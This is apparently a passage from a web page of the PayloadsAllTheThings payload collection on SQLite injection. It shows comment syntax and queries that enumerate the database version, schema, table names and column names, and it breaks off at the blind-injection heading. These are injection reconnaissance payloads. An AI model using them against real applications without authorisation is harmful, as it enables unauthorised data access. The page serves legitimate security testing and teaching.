

repository: pchabermann/PayloadsAllTheThings · page: SQL Injection/SQLite Injection/index.html · generator: mkdocs

# SQLite Injection

> SQLite Injection  is a type of security vulnerability that occurs when an attacker can insert or "inject" malicious SQL code into SQL queries executed by an SQLite database. This vulnerability arises when user inputs are integrated into SQL statements without proper sanitization or parameterization, allowing attackers to manipulate the query logic. Such injections can lead to unauthorized data access, data manipulation, and other severe security issues.

## Summary

* [SQLite Comments](#sqlite-comments)
* [SQLite Enumeration](#sqlite-enumeration)
* [SQLite String](#sqlite-string)
    * [SQLite String Methodology](#sqlite-string-methodology)
* [SQLite Blind](#sqlite-blind)
    * [SQLite Blind Methodology](#sqlite-blind-methodology)
    * [SQLite Blind With Substring Equivalent](#sqlite-blind-with-substring-equivalent)
* [SQlite Error Based](#sqlite-error-based)
* [SQlite Time Based](#sqlite-time-based)
* [SQlite Remote Code Execution](#sqlite-remote-code-execution)
    * [Attach Database](#attach-database)
    * [Load_extension](#load_extension)
* [SQLite File Manipulation](#sqlite-file-manipulation)
    * [SQLite Read File](#sqlite-read-file)
    * [SQLite Write File](#sqlite-write-file)
* [References](#references)

## SQLite Comments

| Description         | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |

## SQLite Enumeration

| Description  | SQL Query                  |
| ------------ | -------------------------- |
| DBMS version | `select sqlite_version();` |

## SQLite String

### SQLite String Methodology

| Description                                          | SQL Query                                                                                              |
| ---------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| Extract Database Structure                           | `SELECT sql FROM sqlite_schema`                                                                        |
| Extract Database Structure (sqlite_version > 3.33.0) | `SELECT sql FROM sqlite_master`                                                                        |
| Extract Table Name                                   | `SELECT tbl_name FROM sqlite_master WHERE type='table'`                                                |
| Extract Table Name                                   | `SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'` |
| Extract Column Name                                  | `SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'`             |
| Extract Column Name                                  | `SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');`                      |
| Extract Column Name                                  | `SELECT MAX(sql) FROM sqlite_master WHERE tbl_name='<TABLE_NAME>'`                                     |
| Extract Column Name                                  | `SELECT name FROM PRAGMA_TABLE_INFO('<TABLE_NAME>')`                                                   |

## SQLite Blind
